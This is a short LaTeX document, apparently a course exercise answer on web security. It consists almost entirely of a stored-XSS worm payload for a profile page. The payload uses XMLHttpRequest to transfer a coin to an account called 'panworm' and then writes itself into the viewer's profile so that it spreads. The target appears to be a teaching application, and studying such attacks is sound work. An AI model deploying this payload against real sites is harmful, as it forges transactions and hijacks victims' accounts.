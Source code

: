 \documentclass{article}
\begin{document}
\section{Web Security}
\begin{enumerate}
	\item
		The profile for this worm would be the following:
\begin{verbatim}
		Totally okay account
		<a id="pancoins" class="
		a = new XMLHttpRequest();
		a.open('POST', 'transfer.php');
		var b= new FormData();
		b.append('pancoins',1);
		b.append('recipient', 'panworm');
		b.append('submission', 'Send');
		a.send(b);
		c = new XMLHttpRequest();
		c.open('POST', 'index.php');
		var d= new FormData();
		d.append('profile_update',
		document.getElementById('pancoins').outerHTML
		);
		d.append('profile_submit', 'Update');
		c.send(d);
		alert('thanks for all the fish')">
\end{verbatim}
\end{enumerate}
\end{document}
